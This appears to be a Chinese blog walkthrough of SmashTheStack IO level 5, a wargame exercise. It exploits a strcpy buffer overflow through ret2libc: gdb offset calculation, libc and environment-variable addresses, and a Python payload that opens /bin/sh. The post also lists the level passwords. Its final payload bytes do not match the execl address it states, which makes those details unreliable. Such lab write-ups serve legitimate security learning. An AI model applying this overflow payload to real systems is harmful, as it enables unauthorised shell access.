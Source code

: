 title: SmashTheStack IO level5
date: 2015-05-30 15:20:56
tags: 缓冲区溢出
---
密码：LOoCy5PbKi63qXTh
<!-- more -->
#源代码
###1、源代码
```
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[128];

    if(argc < 2) return 1;

    strcpy(buf, argv[1]);

    printf("%s\n", buf);

    return 0;
}
```
###执行结果
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1esmcb5wlznj30k201lq34.jpg)
#相关知识
 - 最基本的缓冲区溢出 level3就是基本缓冲区溢出例子，相信大家都了解了
 - [ret2lib](http://www.ibm.com/developerworks/cn/linux/1402_liumei_rilattack/)        原理有点长，我就不赘述了，大家可以参考我给的链接，也可以自己找原理

#找漏洞
###1、思路
观察前几关的程序，需要构造输入的，最终的目的是执行execl("/bin/sh")
所以我首先想到的是，构造输入，修改main返回地址，让其指向库函数execl()起始地址，为了让execl正常返回，exit()地址入栈，然后参数"/bin/sh"入栈
栈结果如图：
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1esmcbnj1jlj30oe0esac4.jpg)
###2、引入环境变量
不存在值为"/bin/sh"的环境变量，首先引入环境变量BIN_SH（名字自拟），在同一个shell下，地址不变
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1esmcczmmznj30k5021aag.jpg)
###3、gdb调试
查看buf，ret地址,计算两者的差距
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1esmcc9q14yj30k30bmgom.jpg)
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1esmcci3a7vj30k309mafx.jpg)

buf：0xbffffbb0，ret：0xbffffc3c，两者相差 0x8c
因此<font color="red">输入格式：</font> "A"*0x8c + execl()起始地址 + exit()起始地址 + "/bin/sh"起始地址
###4、查看execl()、exit()、"/bin/sh"地址
在调试过程中可以p system     p exit 就可以查看了
环境变量BIN_SH在栈的下面，x/1000s 0xbffffbb0  可以打印出从0xbffffbb0开始的1000个字符（具体单位我也不清楚，大家自己百度），一直向下查看就可以找到BIN_SH了
![](http://ww1.sinaimg.cn/large/005CA6ZCjw1esmccofiyfj30k307mwh3.jpg)
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1esmcdday4nj30k30c375r.jpg)


execl  : 0xb7f0f3f0
exit   : 0xb7e9d270
BIN_SH=/bin/sh : 0xbfffff6f
/bin/sh : 0xbfffff76

###5、校正"/bin/sh"地址
现在来验证下BIN_SH的地址是否正确
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1esmcdvn3mzj30k302jmyt.jpg)
这个是调用execl()函数时，参数出错提示，说明execl地址正确
根据我的血泪史，一般函数地址这样查找都没有错，环境变量的地址一般不正确
经过我多次测试，/bin/sh : 0xbfffff70
<font color="red">PS：</font>我的校正方法
在/tmp 目录下新建一个自己的文件夹 star
进入 star 文件夹  ：cd star
想办法生成core文件，调试时，加上core文件，gdb ./level05 core -q  ，然后查看 BIN_SH 的地址
###6、获得密码
输入格式 "A"*0x8c + "0xb7f0f3f0" + "0xb7e9d270" + "0xbfffff70"

"$(python -c 'print "A"*0x8c + "\x30\x9c\xea\xb7" + "\x70\xd2\xe9\xb7" + "\x70\xff\xff\xbf" ')"
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1esmce74oxcj30k203iabv.jpg)

OK！！！ 密码get：rXCikld0ex3EQsnI

